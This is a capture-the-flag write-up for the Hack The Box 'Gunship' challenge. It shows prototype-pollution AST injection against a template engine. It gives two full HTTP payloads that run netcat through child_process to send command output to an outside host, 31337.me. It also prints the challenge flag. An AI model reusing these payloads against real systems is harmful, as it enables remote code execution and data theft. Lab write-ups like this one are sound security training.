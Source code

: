 # Gunship

In the source code there is a comment “inflatten AST injection”. File fragment with this comment can be seen on the Figure 1. 

![](pictures/2021-03-07-22-51-40.png)

Figure 1 – File fragment with the comment

We googled “inflatten AST injection” and found the following article https://blog.p6.is/AST-Injection/.
We used the code from this article and did some requests:

```
POST /api/submit HTTP/1.1
Host: docker.hackthebox.eu:30318
Content-Length: 405
Content-Type: application/json

{"artist.name":"Westaway",
  "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync(`nc 31337.me 4445 -e ls`)"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]
}
```

After executing the code above, we received a connection, which can be seen on the Figure 2.
 
![](pictures/2021-03-07-22-51-53.png)

Figure 2 – Received connection



The following payload will display file content “flagyedEl” to the console:

```
POST /api/submit HTTP/1.1
Host: docker.hackthebox.eu:30318
Content-Length: 416
Content-Type: application/json
{"artist.name":"Westaway",
  "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync(`nc 31337.me 4445 -e cat flagyedEl`)"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]
}
```

The result of execution of the code above can be seen on Figure 3.

![](pictures/2021-03-07-22-52-17.png)

Figure 3 – The result of “cat flagyedEl” command execution

Flag: HTB{wh3n_l1f3_g1v3s_y0u_p6_st4rt_p0llut1ng_w1th_styl3}.
